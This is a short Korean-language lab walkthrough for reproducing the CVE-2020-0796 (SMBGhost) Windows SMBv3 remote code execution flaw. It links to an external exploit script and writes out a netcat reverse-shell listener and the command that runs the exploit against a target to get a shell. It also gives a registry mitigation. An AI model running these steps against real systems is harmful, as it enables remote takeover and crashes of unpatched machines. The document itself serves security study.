

# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type       | OS                                  | Build                   | Core | RAM  | IP              | App          |
| :---       | :---                                | :---                    | :--- | :--- | :---            | :---         |
| Victim     | Windows 10 1903</br>Windows 10 1909 | 18362.356</br>18363.418 | 1    | 4GB  | 192.168.108.149 |              |
| Attacker   | Windows 10 21H1                     | 19043.1706              |      |      | 192.168.0.32    | [exploit.py](https://github.com/2jinu/CVE/blob/main/RCE/%5BWindows%5D%20CVE-2020-0796/file/exploit.py) |

# **Setting**

SMB 사용 허용


# **Exploit**

세션 대기

    nc64.exe -nvlp [reverse port] -s [reverse ip]


exploit.py 실행

    python exploit.py [target ip] [reverse ip] [reverse port]


쉘 획득


# **etc**

process tree 확인


패킷 확인



exploit.py을 끝내면 BSoD 발생


SMBv3 비활성화

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force
```